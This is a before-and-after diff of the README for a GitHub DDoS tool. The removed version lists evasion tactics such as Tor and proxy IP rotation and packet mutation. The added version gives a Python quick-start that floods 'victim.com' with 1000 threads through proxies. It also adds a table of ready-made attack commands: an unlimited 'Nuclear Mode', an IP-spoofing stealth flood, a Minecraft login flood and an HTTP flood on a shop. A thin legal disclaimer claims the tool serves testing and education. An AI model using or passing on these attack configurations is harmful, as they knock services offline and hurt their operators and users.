

Before and after one commit to dinethnethsara/DDOS-tool, a Markdown page: README.md, the part around the change printed below. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -79,49 +78,55 @@ graph TD
 
 ---
 
-## 🛡️ Defense Evasion Techniques
+## ⚡ 𝕼𝖚𝖎𝖈𝖐 𝕾𝖙𝖆𝖗𝖙
 
-| Tactic                | Implementation              | Effectiveness |
-|-----------------------|-----------------------------|---------------|
-| **IP Rotation**       | Tor Network + Proxy Chains  | ★★★★★         |
-| **Packet Mutation**   | Random TCP/UDP Headers      | ★★★★☆         |
-| **Traffic Shaping**   | AI-Generated Patterns       | ★★★★★         |
-| **Protocol Mimicry**  | Legitimate Traffic Clone    | ★★★★☆         |
+```python
+from ddos_engine import AttackManager
+
+config = {
+    "target": "victim.com",
+    "port": 443,
+    "attack_mode": "https-flood",
+    "duration": 300,  # 5 minutes
+    "threads": 1000,
+    "proxy_list": "proxies.txt"
+}
+
+AttackManager.launch(config)
+```
 
 ---
 
-## ⚠️ Critical Legal Notice
+## 📊 𝕬𝖙𝖙𝖆𝖈𝖐 𝕻𝖗𝖊𝖘𝖊𝖙𝖘
 
-<div align="center" style="background-color: #ff000030; padding: 20px; border-radius: 10px; border: 2px solid red;">
+| Preset          | Command                                                                 |
+|-----------------|-------------------------------------------------------------------------|
+| Nuclear Mode    | `./toolkit.sh --target example.com --nuke --threads 5000 --duration 0` |
+| Stealth Mode    | `./toolkit.sh --target example.com --tps 100 --jitter --spoof-ip`      |
+| Game Server     | `./toolkit.sh --target game.com --protocol minecraft --mode login`     |
+| Website Takeover| `./toolkit.sh --target shop.com --http-flood --concurrent 2500`        |
 
-⚠️ **WARNING: UNAUTHORIZED USE IS ILLEGAL** ⚠️
+---
 
-This tool is strictly for:
-- Authorized penetration testing
-- Cybersecurity research
-- Educational purposes
+## ⚠️ 𝕷𝖊𝖌𝖆𝖑 𝕯𝖎𝖘𝖈𝖑𝖆𝖎𝖒𝖊𝖗
 
-**Violators will face:**
-- Federal prosecution 🚔
-- Heavy fines 💰
-- Imprisonment ⛓️
+<div align="center" style="border:3px solid #ff0000; padding:20px; border-radius:15px; background:#ff000010;">
+
+❗ **𝖂𝖆𝖗𝖓𝖎𝖓𝖌: 𝕴𝖑𝖑𝖊𝖌𝖆𝖑 𝖀𝖘𝖆𝖌𝖊 𝕮𝖆𝖗𝖗𝖎𝖊𝖘 𝕾𝖊𝖛𝖊𝖗𝖊 𝕻𝖊𝖓𝖆𝖑𝖙𝖎𝖊𝖘** ❗
+
+```
+▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
+█░▄▀█░▄▀▄░█░▄▀▀░█▀▄▀█░▄▀█░█▀▀░▄▀▀░░░█░█░▄▀▀░█░▄▀▄░█▄░█░▄▀▀
+█░█░█░█▄█░█░▀▄▄░█░▀░█░▀▄░█▀▀░▀▄▄░░░█░█░▀▄▄░█░█▄█░█░▀█░▀▄▄
+▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
+```
+𝕿𝖍𝖎𝖘 𝖙𝖔𝖔𝖑 𝖎𝖘 𝖋𝖔𝖗:
+- 𝕷𝖊𝖌𝖆𝖑 𝖕𝖊𝖓𝖊𝖙𝖗𝖆𝖙𝖎𝖔𝖓 𝖙𝖊𝖘𝖙𝖎𝖓𝖌
+- 𝕮𝖞𝖇𝖊𝖗𝖘𝖊𝖈𝖚𝖗𝖎𝖙𝖞 𝖗𝖊𝖘𝖊𝖆𝖗𝖈𝖍
+- 𝕰𝖉𝖚𝖈𝖆𝖙𝖎𝖔𝖓𝖆𝖑 𝖕𝖚𝖗𝖕𝖔𝖘𝖊𝖘 𝖔𝖓𝖑𝖞
 
 </div>
 
 ---
 
-## 📜 License Agreement
-
-```console
-░░▄▀░░░░░░▄▀░░░░░▄▀▀▀▄▄░░░░░
-░░▄▀░░░░▄▀░░░░▄▀▀▄▀▄▀▄▀▄░░░░
-░░▀▄▄▀▄▄▀░░░░▀▄▀██▀▄▀▄▀░░░░░
-░░░░▀▄▀░░░DDoS TOOL LICENSE
-
-THIS SOFTWARE IS PROVIDED "AS IS" WITHOUT WARRANTY OF ANY KIND.
-UNAUTHORIZED DISTRIBUTION OR MODIFICATION STRICTLY PROHIBITED.
-
-Full license text: LICENSE.md
-```
-
 <p align="center">
````
Also changed, not shown: other parts of README.md (+49 -50 lines).
